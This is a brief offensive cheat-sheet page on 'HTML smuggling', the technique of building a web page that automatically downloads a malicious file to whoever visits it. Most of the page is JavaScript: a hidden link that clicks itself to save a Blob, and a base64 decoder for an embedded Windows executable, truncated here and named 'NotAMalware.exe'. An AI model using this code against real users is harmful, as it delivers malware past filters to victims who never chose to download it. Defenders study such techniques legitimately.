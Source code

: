 # HTML Smuggling

## Summary

- [Description](#description)
- [Executable Storage](#executable-storage)


## Description

HTML Smuggling consists of making a user to navigate to our crafted HTML page which automaticaly download our malicious file.

## Executable storage

We can store our payload in a Blob object => JS: `var blob = new Blob([data], {type: 'octet/stream'});`
To perform the download, we need to create an Object Url => JS: `var url = window.URL.createObjectURL(blob);`
With those two elements, we can create with Javascript our \<a> tag which will be used to download our malicious file: 
```Javascript
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

To store ou payload, we use base64 encoding: 
```Javascript
function base64ToArrayBuffer(base64) {
	var binary_string = window.atob(base64);
	var len = binary_string.length;
	var bytes = new Uint8Array( len );
	for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
	return bytes.buffer;
}
     		
var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'NotAMalware.exe';
```